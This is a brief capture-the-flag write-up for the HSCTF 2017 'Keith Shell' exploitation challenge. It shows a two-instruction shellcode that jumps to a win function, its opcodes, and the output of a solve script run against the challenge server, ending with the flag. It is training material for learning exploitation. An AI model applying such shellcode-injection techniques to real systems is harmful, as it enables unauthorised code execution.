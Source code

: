 # HSCTF_2017: Keith Shell

**Category:** Exploitation
**Points:** 100
**Description:**

>Help [Keith](shell.cpp) write a shellcode to [get a flag](shell)! Netcat to 104.131.90.29:8003 

## Write-up
We just need to craft some shellcode to jump to `exploit()` of address `0x80489fb`. So something like this will be sufficient

    push 0x80489fb
    ret

Translated to opcodes, we get
    
    \x68 \xfb\x89\x04\x08
    \xc3

We now have a [solution](solve.py).

    $ ./solve.py 
    [+] Opening connection to 104.131.90.29 on port 8003: Done
    Flag: 9qCzj0cNsRuwyT6HLIz8RAuBp3NMQ1Bdwm2F2CtquuXea5X0lOWKQ4FeU5fJ

    [*] Closed connection to 104.131.90.29 port 8003

Therefore, the flag is `9qCzj0cNsRuwyT6HLIz8RAuBp3NMQ1Bdwm2F2CtquuXea5X0lOWKQ4FeU5fJ`.